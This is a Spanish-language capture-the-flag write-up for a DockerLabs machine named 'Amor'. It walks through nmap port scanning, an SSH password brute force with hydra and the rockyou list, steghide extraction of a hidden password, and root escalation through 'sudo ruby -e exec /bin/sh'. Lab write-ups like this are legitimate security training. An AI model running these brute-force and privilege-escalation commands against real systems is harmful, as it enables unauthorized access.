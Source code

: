 # Readme Amor

## 1. Paso: Escaneo de Puertos

Realizamos un escaneo de que puertos hay abiertos con **nmap**

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

![alt text](image.png)

Vemos que el puerto 22 **SSH** y el puerto 80 **HTTP** estan abiertos.

Con el siguiente comando, obtendremos más información acerca de los puertos que encontramos:

```bash
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```

![alt text](image-1.png)

## Paso 2: Pagina web

Al ver que el puerto **80** esta abierto, esto nos dice que es una pagina web, pondremos la ip en el navegador para entrar a la pagina web. 

![alt text](image-2.png)

Al mirar la pagina encontramos dos usuarios: **Carlota** y **Juan**.

## Paso 3: Explotación

Utilizaremos la herramienta **hydra** sobre los usuario:

Copiamos el siguiente comando:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```
(Lo haremos, tanto con carlota y para juan)

Obtendremos el siguiente resultado:

![alt text](image-4.png)

![alt text](image-3.png)

De juan no logramos obtener algo pero de carlota encontramos lo siguiente:

```bash
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
```
Vemos que tenemos unas credenciales para entrar por un servicio **SSH**

```bash
ssh carlota@172.17.0.2
```
Ingresamos y ponemos la contraseña:

![alt text](image-5.png)

Y ya estamos adentro!!

Al movernos por los directorios vamos a encontrar una imagen.

![alt text](image-6.png)

Para verla vamos a usar el **scp**

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/albertomarcostic/Desktop/DockerLabs/Amor/content
```
(El comando se ajustara dependiendo de como tenga el directorio)

En otra terminal ejecutaremos el comando:

![alt text](image-7.png)

Y para revisar lo que tiene dentro utilizaremos la herramienta **steghide** :

```bash
steghide --extract -sf imagen.jpg
```
Vemos que hemos extraido **"secret.txt"**

![alt text](image-8.png)

Ponemos un **cat** para que nos muestre lo que tiene adentro:

![alt text](image-9.png)

obtendremos lo que parece ser una contraseña

```bash
ZXNsYWNhc2FkZXBpbnlwb24=

```

Y con **echo** vamos a decodificar la contraseña:

```
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
```
Obtenemos el siguiente resultado:

![alt text](image-10.png)

## Usuario Oscar

Si seguimos moviendonos por los directorios

Encontraremos que si nos movemos a **/home** y ponemos **ls** encontraremos otro usuario llamado **oscar**

![alt text](image-11.png)

Al cual procederemos a entrar ingresando la contraseña encontrada y escribiendo **bash**:

![alt text](image-12.png)

Y ya estamos como oscar.

Y ya para terminar colocamos el siguiente comando:

```bash
sudo ruby -e 'exec "/bin/sh"'
```
y colocando **bash**:

![alt text](image-13.png)

Ya somos el **superusuario** o **root** y hemos finalizado!
